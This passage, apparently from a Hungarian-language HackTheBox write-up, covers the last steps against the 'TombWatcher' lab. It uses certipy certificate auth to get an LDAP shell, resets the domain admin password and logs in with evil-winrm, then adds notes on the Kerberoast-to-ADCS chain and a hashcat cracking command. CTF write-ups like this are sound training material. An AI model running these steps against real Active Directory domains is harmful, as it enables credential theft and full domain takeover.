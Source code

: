 ### Admin shell certtel (LDAP shell):

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
```

- Jelszócsere domain adminra:
```
change_password administrator NoSecHere
```

---

## Root shell & root.txt

```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere
```

- **Root flag:** C:\Users\Administrator\Desktop\root.txt

---

# Jegyzet / Casual tapasztalatok

- A kerberoast chain után jól jött, hogy mindenhol szinte instant csoport abuse megy
- A certipy verziók random szoptattak – classic chain csak pip install certipy==1.2.0 után jött ki
- Az AD objektum recovery és enable jó workflow volt, sok CTF-en nincs ilyen
- **ADCS UPN chain**: egy “szar” sablonból is lehet full admin, ha ügyesen kombinálod a policy OID-t!
- Root előtt, ha újra kell indítani HTB gépet, minden hasht/jelszót gyorsan jegyezz fel!

---

# Lessons learned

- AD privilege chain: ha az első foothold után végig tudsz menni a csoport-abuse-okon, szinte bármelyik userből lehet DA
- Kerberoast-tól ADCS-ig, minden láncszem kihozható open source toolokkal
- Pip-es certipy, gMSADumper, bloodyAD – mind gold
- Próbáld végig több environmentből is, ha szopat a workflow!
- HTB-s gépnél **a chain a lényeg, nem csak az 1-1 exploit!**

---

# Cheat Sheet

## Kerberoast hash törése
```
hashcat -m 13100 hashfile /usr/share/wordlists/rockyou.txt
```

